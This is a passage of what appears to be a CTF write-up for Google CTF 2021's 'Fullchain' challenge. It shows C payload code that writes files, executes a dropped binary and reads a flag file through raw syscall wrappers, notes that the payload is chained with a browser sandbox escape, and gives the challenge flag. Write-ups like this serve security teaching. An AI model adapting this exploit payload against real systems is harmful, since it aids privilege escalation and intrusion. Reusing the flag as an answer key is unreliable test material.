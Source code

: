```c=
	int mod = open(path,O_CREAT|O_WRONLY,0777);
	write(mod,msg,sizeof(msg));
	close(mod);

	int y = open(ybin,O_CREAT|O_WRONLY,0777);
	write(y,mess,sizeof(mess));
	close(y);
	execve(ybin,NULL,NULL);
	int flag = open(flagpath,0);
	read(flag,buf,0x100);
	write(1,buf,0x100);
	my_exit(0);
}

void my_exit(int status){
	 asm volatile ("syscall" :: "a"(SYS_exit));
}

int execve(const char *pathname, char *const argv[],
                  char *const envp[]){
	asm volatile ("syscall" :: "a"(SYS_execve));
}
int close(int fd){
	asm volatile ("syscall" :: "a"(SYS_close));
}

int ioctl(int fd, unsigned long request, ...){
	asm volatile ("syscall" :: "a"(SYS_ioctl));
}

int open (const char *__file, int __oflag, ...){
	asm volatile ("syscall" :: "a"(SYS_open));
}

ssize_t write (int __fd, const void *__buf, size_t __n){
	asm volatile ("syscall" :: "a"(SYS_write));
}

ssize_t read (int __fd, void *__buf, size_t __nbytes){
	asm volatile ("syscall" :: "a"(SYS_read));
}

int dup2(int oldfd, int newfd){
	asm volatile ("syscall" :: "a"(SYS_dup2));
}

```

In order to combine our kernel exploit with the one in sandbox escape, we wrote a simple python script and convert `sc.bin` into Javascript format. The whole exploit.html is kind of large, you can check the entire exploit [here](https://github.com/st424204/ctf_practice/tree/master/GoogleCTF2021/Fullchain).

flag: `CTF{next_stop_p2o_fda81a139a70c6d4}`
